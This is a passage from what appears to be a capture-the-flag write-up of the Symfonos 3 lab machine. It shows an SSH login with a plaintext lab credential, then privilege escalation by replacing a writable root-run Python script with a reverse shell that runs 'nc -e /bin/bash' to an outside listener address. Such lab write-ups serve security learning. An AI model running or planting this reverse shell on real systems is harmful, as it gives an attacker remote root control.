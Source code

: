 Logged in SSH with ``hades:PTpZTfU4vxgzvRBE``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/13.1.png)

## Privilege Escalation:

We know the python script is in ``/opt/ftpclient`` and now we have permission to write on the script.

Removed that old script and I created a reverse shell python script in my machine and uploaded it to the machine.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/13.png)

```
import sys
import os
os.system("nc -e /bin/bash 192.168.1.103 1234")
```

Started my NC listener and wait for sometime and BOOM I'm root!!<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos3/14.png)